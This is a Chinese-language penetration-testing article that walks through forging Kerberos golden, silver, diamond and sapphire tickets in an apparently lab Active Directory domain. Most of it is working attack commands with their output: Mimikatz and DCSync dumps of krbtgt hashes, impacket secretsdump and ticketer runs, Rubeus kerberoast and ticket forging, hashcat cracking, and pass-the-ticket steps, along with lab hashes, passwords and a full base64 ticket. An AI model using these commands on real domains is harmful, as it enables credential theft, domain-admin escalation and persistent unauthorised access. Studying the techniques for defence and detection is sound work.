


# 探究域渗透下的四种票据 - 先知社区

探究域渗透下的四种票据

- - -

# 0x01 Kerberos 身份认证流程

Kerberos 是一种基于票证的身份验证协议。它基本上是这样工作的：

> 1.客户端向 KDC（Key Distribution Center，通常是域控制器）请求 TGT（Ticket Granting Ticket）。请求用户的密钥之一用于预身份验证。TGT 由身份验证服务 (AS) 提供。客户端的请求被称为 AS-REQ，应答被称为 AS-REP。  
> 2.客户端使用 TGT 向 KDC 请求 ST（服务票证）。该票证由票证授予服务 (TGS) 提供。客户端的请求被称为 TGS-REQ，应答被称为 TGS-REP。  
> 3.客户端使用 ST（服务票证）来访问服务。客户端对服务的请求被称为调用 AP-REQ，服务的响应被称为调用 AP-REP。  
> 4.两种票证（TGT 和 ST）通常都包含加密的 PAC（特权身份验证证书），目标服务将读取一组信息来决定身份验证用户是否可以访问该服务（用户 ID、组成员身份等） 。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161203-3e828dae-c3fe-1.png)

# 0x02 黄金票据 Golden Ticket

## 介绍

黄金票证是一种权限维持手段，攻击者获得了对 Active Directory 密钥分发服务帐户（KRBTGT）的控制权，并使用该帐户伪造有效的 Kerberos 票证授予票证（TGT）。这使攻击者能够访问 Active Directory 域上的任何资源，如果有 KRBTGT 哈希，您可以伪造自己的 TGT，其中包括想要的任何组成员身份的 PAC 数据

## 利用条件

黄金票据的使用的必要票件是获取域中 `krbtgt` 用户使用的加密密钥之一，然而加密密钥之一就是该账户的`NTLM HASH`值  
可以使用使用`Mimikatz`读取密钥

```plain
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : ROOTKIT / S-1-5-21-3759881954-2993291187-3577547808

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : c3d5042c67ef5f461d0ba6ecdd9ea449
    LM   :
  Hash NTLM: c3d5042c67ef5f461d0ba6ecdd9ea449
    ntlm- 0: c3d5042c67ef5f461d0ba6ecdd9ea449
    lm  - 0: 2ca534c7c96a0b5bf6b37169b68f66af

 * WDigest
    01  3aea9b0472aa93bb13a9b2cffacf1001
    02  d9a716e3ba48883f5e320e32ea793979
    03  c888eb926eb57ff76e58ab449473d39b
    04  3aea9b0472aa93bb13a9b2cffacf1001
    05  d9a716e3ba48883f5e320e32ea793979
    06  e9ae3f6dcdd930348beb39a7820c885e
    07  3aea9b0472aa93bb13a9b2cffacf1001
    08  012ae037510392d1042f4b243bd2c267
    09  012ae037510392d1042f4b243bd2c267
    10  a9fb57ca643019f1d9905258c730bc6d
    11  1502d1b012872f1fa844005a85febaf4
    12  012ae037510392d1042f4b243bd2c267
    13  6e163f56804bf65f31aca237ffc9c27c
    14  1502d1b012872f1fa844005a85febaf4
    15  3129979e298936ba9f9887964df78426
    16  3129979e298936ba9f9887964df78426
    17  7d8690f61f25eee70d00dbf43d56dde3
    18  5d4a8835dbe016ee297e53e7ffb39211
    19  d634b7b932766446b488972d97a666d8
    20  0fc150e25f583494a969df01da500775
    21  f56f62faf0625c2d57698b23a23bbec9
    22  f56f62faf0625c2d57698b23a23bbec9
    23  8071dd220b86f03043815241b5826a37
    24  9c11092e9e52701249d1b3e28351aa8c
    25  9c11092e9e52701249d1b3e28351aa8c
    26  e8432cad9fda7cd77474c556d8add53a
    27  72296ac7ad11af046a2cb5edc6ccd75c
    28  78f36bbd4ba657fdcc2f377e550e0c62
    29  4cb788eeb5b4460b4334f6b6b5cd969b

 * Kerberos
    Default Salt : ROOTKIT.ORGkrbtgt
    Credentials
      des_cbc_md5       : 2cb957646746e376

 * Kerberos-Newer-Keys
    Default Salt : ROOTKIT.ORGkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745
      aes128_hmac       (4096) : c7ae2a311bdd5803646f9a98351c31e6
      des_cbc_md5       (4096) : 2cb957646746e376
```

其中有三个加密密钥可以用于黄金票据

```plain
NTLM : c3d5042c67ef5f461d0ba6ecdd9ea449
aes256_hmac  : 3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745
aes128_hmac  : c7ae2a311bdd5803646f9a98351c31e6
```

除了加密密钥之外，还需要以下信息

```plain
目标域名：我这里是 rootkit.org
目标域的 sid：刚刚 lsadump::lsa 有显示 S-1-5-21-3759881954-2993291187-3577547808 或者 whami /all 也可以查看
要模拟的用户账户名称：例如 Administrator
要模拟的用户 RID：RID 是 SID 右边的数字，例如管理员是 500
该账户所属组的 RID:域用户和域管理员的 RID 分别是 512 和 513
```

## 使用 Mimikatz 注入票据

登录低权限域账户，尝试 `dir` 域控失败

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161245-57d02e24-c3fe-1.png)

```plain
清除原有票据：kerberos::purge
注入黄金票据：kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /rc4:c3d5042c67ef5f461d0ba6ecdd9ea449 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161311-671ce1ba-c3fe-1.png)

成功注入后尝试`dir`域控，成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161318-6b2004b8-c3fe-1.png)

尝试`psexec`成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161323-6e7b6594-c3fe-1.png)

如果以后想要重复使用相同的票据，可以直接生成一个票据文件，然后将其文件导入会话中

```plain
kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /rc4:c3d5042c67ef5f461d0ba6ecdd9ea449 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ticket:golden.kirbi
kerberos::ptt golden.kirbi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161330-7287d3fc-c3fe-1.png)

**注意**：由于客户端和服务器的配置问题以及 windows 自身的特性，需要尝试目标系统的非限定名称或者限定名称才能成功，例如 UNC 路径`\\owa2013\c$`或`\\owa2013.rootkit.org\c$`  
如果拥有 `AES-256 HMAC` 和/或 `AES-128 HMAC`也可进行尝试

```plain
#aes256
kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes256:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt
#aes128
kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes128:c7ae2a311bdd5803646f9a98351c31e6 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt
```

## **欺骗性用户名**

在票据认证中，目标系统通常会信任 Kerberos 票证中的信息，而不会验证帐户信息是否有效。我们可以尝试注入一个名称为`Hello world,Nice to meet you my dear`的会话

```plain
kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes256:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:"Hello world,Nice to meet you my dear" /id:500 /groups:500,501,513,512,520,518,519 /ptt
```

查看域控在线会话可以看到这个用户名

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161421-909828ec-c3fe-1.png)

其实 RID 也可以任意，但是某些系统会尝试反向查找产生异常，非必要情况下不建议这么做

## 组成员资格

组 RID 列表不需要与欺骗票证中的帐户所属的实际组列表相对应，即使你的用户名是低权限，你可以包含`Domain Admins`组的 RID。

```plain
kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes256:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:micle /id:1139 /groups:500,501,513,512,520,518,519 /ptt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161449-a1896b8e-c3fe-1.png)

## impacket 下黄金票据的利用

`lookupid.py`脚本以枚举域 SID

```plain
python lookupsid.py "rookit/administrator:admin!@#45"@192.168.3.131
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161456-a59b2e2e-c3fe-1.png)

`secretsdump.py`用于提取 `krbtgt`哈希

```plain
python secretsdump.py "rookit/administrator:admin!@#45"@192.168.3.131 -outputfile krbhash -user-status
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161504-aab7b6d4-c3fe-1.png)

`ticketer.py` 脚本创建 TGT/TGS 工单，工单期限固定为 10 年后，

```plain
python ticketer.py -nthash c3d5042c67ef5f461d0ba6ecdd9ea449 -domain-sid S-1-5-21-3759881954-2993291187-3577547808 -domain rootkit.org administrator
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161509-ad3ededc-c3fe-1.png)

使用`ticket_converter.py`将 ccache 文件转换为 kirbi 文件

```plain
python ticketConverter.py administrator.ccache ticket.kirbi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161513-aff68fa8-c3fe-1.png)

mimikatz 进行注入

```plain
kerberos::ptt ticket.kirbi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161518-b2983f4a-c3fe-1.png)

## 使用 Rubeus.exe 传递票据

```plain
Rubeus.exe ptt /ticket:ticket.kirbi
```

## msf 下的 mimikatz

```plain
load kiwi
dcsync_ntlm krbtgt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161523-b608b484-c3fe-1.png)

确定当前域

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161528-b8b4ce16-c3fe-1.png)

生成票据并导入

```plain
golden_ticket_create -d rootkit.local -u administrator -s S-1-5-21-3759881954-2993291187-3577547808 -k c3d5042c67ef5f461d0ba6ecdd9ea449 -t /home/kali/ticket.kirbi
kerberos_ticket_use /home/kali/ticket.kirbi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161532-bb2c16f4-c3fe-1.png)

# 0x03 白银票据 Silver Ticket

## 介绍

白银票据是伪造的 `Kerberos Ticket Grant Service （TGS）` 票证，银票仅允许攻击者伪造特定服务的票证授予服务（TGS）票据。TGS 票证使用服务的密码哈希值进行加密，因此如果攻击者窃取了服务帐户的哈希值，就可以生成白银票据。

## 利用条件

白银票据所需的利用条件和黄金票据是相同的，只是秘钥换成了对应服务的机器账户 Hash(尾部带$的均为机器账户)

```plain
目标域名：我这里是 rootkit.org
目标域的 sid：刚刚 lsadump::lsa 有显示 S-1-5-21-3759881954-2993291187-3577547808 或者 whami /all 也可以查看
要模拟的用户账户名称：例如 Administrator
要模拟的用户 RID：RID 是 SID 右边的数字，例如管理员是 500
该账户所属组的 RID:域用户和域管理员的 RID 分别是 512 和 513
```

## 尝试 mimikatz 注入票据

CIFS 文件共享服务的密码和计算机账户相同，使用 mimikatz 抓一下密码

```plain
privilege::debug
sekurlsa::logonpasswords
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161539-bf711c32-c3fe-1.png)

查看 Sid

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161543-c1d1af78-c3fe-1.png)

注入票据

```plain
kerberos::golden /sid:S-1-5-21-202412995-3582062751-167045153 /domain:rootkit.org /target:SRV-WEB-KIT.rootkit.org /service:cifs /rc4:78e1c42dbff68fdd87ea7abd70b67533 /user:1111 /ptt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161548-c4a642a4-c3fe-1.png)

## 使用 rubeus 进行注入

下面将尝试获取 `mssql` 服务的票据，由于本地测试，需要向服务添加一个账户 sqluser 来运行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161601-ccb6cc5c-c3fe-1.png)

使用 rubeus 转储 tgs

```plain
rubeus.exe kerberoast /domain:rootkit.org /creduser:rootkit\windows7 /credpassword:admin!@#45 /nowrap
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161708-f49655bc-c3fe-1.png)

使用 hashcat 爆破密码，密码为 Admin12345

```plain
hashcat -m 13100 '$krb5tgs$23$*sqluser......省略' '/home/kali/Desktop/10_million_password_list_top_100000.txt'  --force
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161715-f88b634c-c3fe-1.png)

使用 `rubeus`转为 `ntlm hash`

```plain
Rubeus.exe hash /password:Admin12345
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161722-fcbed76e-c3fe-1.png)

使用`whoami /user`获取 sid，服务名`service`是上面`kubeus`获取到的服务名

```plain
rubeus.exe silver /service:MSSQLSvc/win7.rootkit.org /rc4:CCEF208C6485269C20DB2CAD21734FE7 /sid:S-1-5-21-3759881954-2993291187-3577547808 /user:test123333 /domain:rootkit.org /ptt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161730-01bc0890-c3ff-1.png)

远程连接数据库执行命令即可

```plain
sqlcmd -S 192.168.1.2,1433
```

## 黄金票据与白银票据的区别

1.  访问权限不同

```plain
黄金票据 伪造 TGT，可以获取任何 Kerberos 服务权限 
白银票据 伪造 TGS，只能访问指定的服务，白银票据的权限就远不如黄金票据的权限
```

1.  加密方式不同

```plain
黄金票据 由 Kerberos 的 NTLM Hash 加密 
白银票据 由服务账号 (通常为计算机账户)NTLM Hash 加密，更加隐蔽
```

1.  认证流程不同

```plain
黄金票据 利用过程需要访问域控 DC
白银票据 不经过 KDC，因此白银票据日志相对于黄金票据会更少，同时白银票据的日志都在目标服务器上，域控上不会有日志
```

# 0x04 钻石票据 Diamond Ticket

黄金票据攻击和钻石票据攻击都需要访问`krbtgt`密钥。然而，钻石票据攻击需要访问`AES256`密钥。黄金票证攻击则是利用伪造票证授予票证 (TGT) ，而钻石票证攻击则利用了域控制器 (DC) 请求的真实 TGT 进行解密和重新加密进行票据攻击。  
黄金票据充分利用了能够从头开始伪造票据授予票据 (TGT) 的优势，而钻石票据则利用了能够解密和重新加密从域控制器 (DC) 请求的真实 TGT 的优势。

## 钻石 PAC

**什么是 PAC**  
PAC 是一种传递域控制器 (DC) 提供的授权相关信息的结构。身份验证协议使用 PAC 来验证身份以传输授权信息，从而控制对资源的访问。说白了就是来验证身份是否有效的。  
最初的`钻石PAC`攻击远没有钻石票据灵活，攻击成功需要两个条件

```plain
1. 在没有特权属性证书（PAC）的情况下请求 TGT
2. 确保要访问的服务的服务帐户未在其 UserAccountControl (UAC) 属性中设置“NA”位
```

在服务帐户的 UAC 属性中设置 NA 位后，向该服务帐户请求的 ST 没有 PAC，攻击者下一个阶段就可以构造恶意 PAC 注入到 ST 中实现攻击。  
由于 2021 年发布的补丁无法再在完全最新的域控制器 (DC) 上使用没有 PAC 的 TGT。我们知道需要拥有`KRBTGT`密钥，并且攻击利用任何其他有效帐户来请求 TGT。所以我们想为什么不直接解密该 TGT，按照我们想要的方式修改它，重新计算 PAC 签名，然后重新加密它。这就是我们所说的钻石票据。

## 钻石票据攻击利用

我们使用钻石票据的思路就是使用低权限的用户向域控请求一个普通的 `TGT`，随后进行解密修改签名和重新加密即可，当然这些事情`Rubeus`会自动帮我们完成，我们只需要提供信息即可。  
本地尝试`dir`拒绝访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161819-1ed7af74-c3ff-1.png)

使用 `mimikatz` 抓取 `krbtgt` 用户 `aes256`密钥

```plain
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:rootkit.org /user:krbtgt" "exit"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161824-21967d80-c3ff-1.png)

使用钻石票据需要提供以下信息

```plain
krbkey:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745
低权限用户 user:micle
用户密码 password:Admin12345
domain:rootkit.org
dc:owa2013.rootkit.org
ticketuser:administrator //伪造的票据用户名可以任意，不需要域中存在该用户
```

```plain
Rubeus.exe diamond /krbkey:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:micle /password:Admin12345 /enctype:aes /domain:rootkit.org /dc:owa2013.rootkit.org /ticketuser:test123 /ptt /nowrap
```

以下为原`TGT`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161829-24ccf24a-c3ff-1.png)

解密重新构造的`TGT`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161833-2730a23e-c3ff-1.png)

利用我们重新构造的`TGT`对域控的`cifs`服务进行票据注入。

```plain
Rubeus.exe asktgs /ticket:doIFMjCCBS6gAwIBBaEDAgEWooIEOzCCBDdhggQzMIIEL6ADAgEFoQ0bC1JPT1RLSVQuT1JHoiAwHqADAgECoRcwFRsGa3JidGd0GwtST09US0lULk9SR6OCA/UwggPxoAMCARKhAwIBA6KCA+MEggPfj2PsZr7SGEqJsPPl5wG8ljBVM4yBAtxGQNxTQQPo6WBMTxcXS+3f3vyYs6qab0uZ+X5UW45e4aW8T8VhsTOkSJ1jokudegt8ILFKbHNpuUTMywsfgjRb6o+CQkfyZMGep1bQ9FoKHw+qPyd6ql7bYK50u1zO+uhNQ61cQDymFiDaqu0UBLh9yI4qY81gpycKOZSWqy0T/cH52hn22IuuxfL9dKN9qdRF+YCnrqy9MBSPx5E3MGVroJZrLYqgDfPQ9g+u1pPabnci8ac3J2S8isxbTscP7hutRATWTQWeauRvG1DbNN6qANWagDNpPy9JEqQoLbqrr3GD/FEQhaANSZlX2IPzLj8EsUcKQExEVSaWC3OuUwqNGWBNhc1m+aJL9mt6D42SwWMyFvmREmlj/lDR9kv9IQmqupcFCloBkewpyFBlecHkkSFKwXGvde65Y7Z/5vP1Iq1el2VrZPPMhywUhk5JwnRNhInDokhYFOWMIdY3w/C2PreLdEiL5aFUc7e01y7uQV5Wbe/OJ6XZdNhbYKXZ9lzZdHAqSayQmo0TRpBCBwqAZUFZse3l5B7qwPP9WBJDLIZtNgV6GUt0CW9DVoIW0jdM1j2Hkl9B+CeM1xV7Vb2DMNh8gK6IfT7KWEHX8a+0GVwlQWkAW/O/IpjZc8+3rIkiIfCIqbGTwA/pnjfhsS2lOXetwW6S4jQ8C9SfKZbLWhPIxpRs9q9g3tWMUE22Pk06CD3T9GbdTEbVi0IvCQJSgNIGMu+sI9ISVZ78HNmYv2wAjjC0tcHusjG1DDj0obyfeg99icK1ZtZL0HmOcQCSwNZqqJDMOXix1uKXv8auJP0itVdUf/aYp8l0xDjVQRYzvefpuar1Ce2Dhguejc6nEfPKusFBPDNhYGw8WlSupnCjjwgNuuQT1WUXdNuTMpPAh3Grb0dj/2s3/WcqVI3P9eZMos6n+MnD8RJUjytPGAm+iKa30KmL3nJbxQEdBOCI9cY4SYmf09B9fQJhG7fEwyeUyjcRoCeOeLFlSM8MCs/qHUi+0MTkVyyiLYZWfcNY+20dCbwUtRz6zXUwQ4go8buZoZMKqnnio1rtzZxzqkqiYK+AbtRq7+9JPuX0chOr9GKqGQGEqaQZCqjOVCQKr1A+JK4mfhHxGwe0eDaDtGOTUnszGLhqQdmDVxNpKduOLjaQBN97ACnitC3Q1Ww6ZeCv51TVh2x787nNkYy5JWZrY0gd3FByb9UDkMmeODy/1oVireCYEfLAL8yUuu/REgZbkyIsxzSCeG/NUZN6ztjGn/IrJ06bEQS6OhuvPHKP51JIh/8HUaOB4jCB36ADAgEAooHXBIHUfYHRMIHOoIHLMIHIMIHFoCswKaADAgESoSIEIFPwBQgPPeImtpqHK3V4zobqMKDh0uVBzmEB/v5GuE7noQ0bC1JPT1RLSVQuT1JHohQwEqADAgEBoQswCRsHdGVzdDEyM6MHAwUAQOEAAKURGA8yMDI0MDIwNTA0Mjk0OFqmERgPMjAyNDAyMDUxNDI5NDhapxEYDzIwMjQwMjEyMDQyOTQ4WqgNGwtST09US0lULk9SR6kgMB6gAwIBAqEXMBUbBmtyYnRndBsLUk9PVEtJVC5PUkc= /service:cifs/owa2013.rootkit.org /ptt /nowrap
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161840-2b16351c-c3ff-1.png)

查看票据发现已经存在

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161844-2dc2a84a-c3ff-1.png)

尝试 `dir`域控和`psexec`均成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161848-2fcb4c0a-c3ff-1.png)

这种技术相比于金票更加隐蔽，因为过程中所申请的 TGT 是真实的，只是修改了 PAC，相对你金票离线生成`TGT`更符合 OPSEC

# 0x05 蓝宝石票据 Sapphire Ticket

蓝宝石票据与钻石票据类似，票据不是伪造的，而是通过请求后获得的合法票据。他们的区别在于`PAC`的修改方式。钻石票据是修改了合法`PAC`以添加特权组。在蓝宝石票据中，高权限用户`PAC`是通过  
`S4U2Self+U2U`获得的，然后该`PAC`会替换原来的`PAC`，由于该票据是完全合法元素组合起来的，所以是最难检测的票据。

## S4U2self + U2U

为了在 Kerberos 协议层面对约束性委派进行支持，微软扩展了 `S4U2self` 协议，而使用 U2U 可以在没有 SPN 的情况下请求 `S4U2Self`。

## 尝试生成蓝宝石票据

在这里使用魔改过的 `ticketer.py`

```plain
https://github.com/ShutdownRepo/impacket/tree/6c9a1aadbfc11e321858a640b596530535b11fd1
```

将域控的 ip 地址加入 hosts，使用如下命令生成票据

```plain
python ticketer.py -request -impersonate 'administrator' -domain 'rootkit.org' -user 'micle' -password 'Admin12345' -aesKey '3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745' -domain-sid 'S-1-5-21-3759881954-2993291187-3577547808' -nthash 'c3d5042c67ef5f461d0ba6ecdd9ea449' 'Sapphire'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161858-3638b4d8-c3ff-1.png)

通过抓包可以看到我们指定了要获取服务票证的用户名`administrator` ，此外我们还为用户请求了服务票证，执行 `U2U`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161902-388ac334-c3ff-1.png)

使用`mimikatz`导入该票据，成功`dir`域控

```plain
kerberos::ptc ignored.ccache
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205161908-3c245622-c3ff-1.png)

由于该票据很难被检测到，只能通过人工排查`krbrgt`账户被盗等情况入手

# 0x06 总结

本文介绍了常见域渗透中`kerberos`协议的基本认证流程，和权限维持过程中常见的四种票据的原理和使用方法，希望对大家有所帮助。
